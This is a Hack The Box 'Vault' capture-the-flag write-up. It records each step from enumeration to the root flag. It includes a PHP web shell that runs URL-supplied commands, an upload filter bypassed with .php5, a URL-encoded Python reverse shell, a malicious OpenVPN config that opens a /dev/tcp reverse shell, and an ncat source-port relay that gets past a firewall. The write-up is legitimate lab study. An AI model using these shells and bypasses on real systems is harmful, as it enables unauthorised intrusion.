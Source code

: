 ```yaml
---
title: HTB Machine Vault Writeup
date: 2024-12-21
categories: [CTF, HTB]
tags: [CTF, HTB, Machine, Medium]
description: HTB Machine Vault Writeup
---
```

# Nmap
```bash
nmap -Pn -v -p- -sV --min-rate 1000 vault.htb -oN vault_nmap.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

# Foothold (Port 80)
Main page hints there is possibly a directory related to "sparklays"
![Screenshot](/assets/img/vault-writeup-screenshot/image_1.png)
Turns out there is a directory under http://vault.htb/sparklays
![Screenshot](/assets/img/vault-writeup-screenshot/image_1_1.png)

Fuzzing with Gobuster
```bash
gobuster dir -u http://vault.htb/sparklays -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,php -o vault.htb_sparklays.txt
```

Subdirectory in sparklays/design
```bash
gobuster dir -u http://vault.htb/sparklays/design -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,php -o vault.htb_sparklays_design.txt
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_3.png)

Found admin login page at admin.php
```
http://vault.htb/sparklays/admin.php
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_2.png)

Another page names design.html
```
http://vault.htb/sparklays/design/design.html
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_4.png)
The link leads to
```
http://vault.htb/sparklays/design/changelogo.php
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_5.png)

Uploading test.png returns success
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_1.png)

And the file can be viewed at
```
http://vault.htb/sparklays/design/uploads/<filename>
```

But uploading test.php returns a failed message
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_2.png)

Fuzzing with Burp Intruder shows that it allows uploading .php5 files
![Screenshot](/assets/img/vault-writeup-screenshot/image_5_3.png)

Uploading a simple file to test code execution with system()
```php
<?php
echo "hello\n";
system($_GET['cmd']);
?>
```
can use system()

![Screenshot](/assets/img/vault-writeup-screenshot/image_6.png)
Reverse shell from revshells.com
```bash
# Python3 #2 URL encoded
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.24%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_7.png)
# User.txt

![Screenshot](/assets/img/vault-writeup-screenshot/image_8.png)

SSH password in /home/dave/Desktop
![Screenshot](/assets/img/vault-writeup-screenshot/image_9.png)

![Screenshot](/assets/img/vault-writeup-screenshot/image_10.png)
Further enumeration shows:
- IP address for other servers
- A potential password or encryption key
![Screenshot](/assets/img/vault-writeup-screenshot/image_11.png)

No nmap installed, therefore using a bash script to scan for ports (https://github.com/mnorin/bash-scripts/blob/master/utils/portscan.sh)

![Screenshot](/assets/img/vault-writeup-screenshot/image_12.png)

Tunnel to DNS + Configurator server
```bash
ssh -L 8888:192.168.122.4:80 dave@vault.htb
```

Main page
![Screenshot](/assets/img/vault-writeup-screenshot/image_13.png)

Second link goes to
```
http://192.168.122.4/vpnconfig.php?function=testvpn
```
![Screenshot](/assets/img/vault-writeup-screenshot/image_14.png)

This suggests that it allows editing and executing a .ovpn file.

There is a blog post about code execution using ovpn files. (https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

.ovpn file used
```
remote 192.168.122.4
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/8080 0<&1 2>&1&'"
```

The flag is in /home/dave/user.txt
![Screenshot](/assets/img/vault-writeup-screenshot/image_15.png)

# Root.txt
SSH password for dave on 192.168.122.4 (DNS) is in home directory
![Screenshot](/assets/img/vault-writeup-screenshot/image_16.png)

Checking /etc/hosts shows the IP of the Vault server
![Screenshot](/assets/img/vault-writeup-screenshot/image_17.png)

![Screenshot](/assets/img/vault-writeup-screenshot/image_18.png)

Interesting commands to add routes to Vault subnet
```bash
http://192.168.1.11:8888/DNS.zip

root@DNS:/var/www/DNS# cat interfaces 
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
```
However, the IP does not seem to be reachable.
# Checked Writeup (Got Stuck Here)
Issue:
- Identified the target IP to pivot to, but cannot seem to reach the server

Checked writeup at this point (https://0xdf.gitlab.io/2019/04/06/htb-vault.html)

So by grepping the IP under log files, there are previously ran command that hints on how the users reached the DNS server from Vault
```bash
grep -rHa "192.168.5.2" /var/log
```

Commands previously ran by dave
![Screenshot](/assets/img/vault-writeup-screenshot/image_19.png)
```
/var/log/auth.log:Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
/var/log/auth.log:Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
/var/log/auth.log:Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
```

Creates a tunnel with a certain source port (as ssh cannot specify source port)
- that's why nmap returned nothing, as it only allow traffic with src port 53 or 4444

```bash
/usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
```

Then ssh as dave, same password as before
```bash
ssh dave@127.0.0.1 -p 1234
```

![Screenshot](/assets/img/vault-writeup-screenshot/image_20.png)

A root.txt.gpg file in the home directory
![Screenshot](/assets/img/vault-writeup-screenshot/image_21.png)

Listing keys on each host
```bash
gpg --list-keys
```

There is a key on ubuntu host (first host)

![Screenshot](/assets/img/vault-writeup-screenshot/image_22.png)

Copy file from vault to ubuntu using scp
```bash
# From vault to DNS
scp -P 1234 dave@127.0.0.1:~/root.txt.gpg .

# From DNS to ubuntu
scp dave@192.168.122.4:~/root.txt.gpg .
```

Decrypt with passphrase shown in /home/dave/Desktop/key
![Screenshot](/assets/img/vault-writeup-screenshot/image_23.png)
# Just for fun
## Shell breakout
https://systemweakness.com/how-to-breakout-of-rbash-restricted-bash-4e07f0fd95e
Method -3
```bash
ssh dave@127.0.0.1 -p 1234 -t bash
```
